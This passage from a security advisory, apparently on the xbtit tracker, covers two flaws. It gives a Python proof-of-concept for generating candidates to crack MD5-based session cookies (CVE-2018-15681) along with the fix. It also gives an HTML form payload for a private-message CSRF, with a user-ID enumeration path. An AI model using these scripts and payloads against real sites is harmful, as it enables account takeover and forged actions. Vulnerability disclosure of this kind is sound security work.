 ### Proof of Concept
```python
import hashlib
import sys
import time

if len(sys.argv) < 2:
    print 'Usage: python {name} /path/to/wordlist.txt'.format(name = sys.argv[0])
    exit(1)

start_time = time.time()

with open(sys.argv[1], 'r') as passwords:
  for password in passwords:
    digest = hashlib.md5()
    digest.update(password.strip())
    hash = digest.hexdigest()

    for rnd in range(100000, 1000000):
        print '{rnd}{hash}{rnd}'.format(rnd = rnd, hash = hash)

print >> sys.stderr, '--- %s seconds ---' % (time.time() - start_time)
```

### CVE-ID
CVE-2018-15681

### Solution
Within the security suite settings, choose `New xbtit (Session)` as the cookie type to remove the hash from the cookie. This will cause all existing sessions to be invalidated and require all users to log back in.

<hr>

## Private Message CSRF
Due to a lack of cross-site request forgery protection, it is possible to automate the action of sending private messages to users by luring an authenticated user to a web page that automatically submits a form on their behalf.

In order for the attack to work, the `uid` parameter must be set to the ID of the user that is being targetted. The user ID can be harvested by enumerating the `id` parameter from the user details page found at `/index.php?page=userdetails&id=UID`

```xml
<form action="http://xbtit.vm/index.php?page=usercp&do=pm&action=post&uid=3&what=new" method="post">
  <input type="text" name="receiver" value="root">
  <input type="text" name="subject" value="subject line">
  <input type="text" name="fontchange" value="">
  <input type="text" name="fontchange" value="">
  <input type="text" name="msg" value="message body">
  <input type="submit" value="Submit">
</form>
```
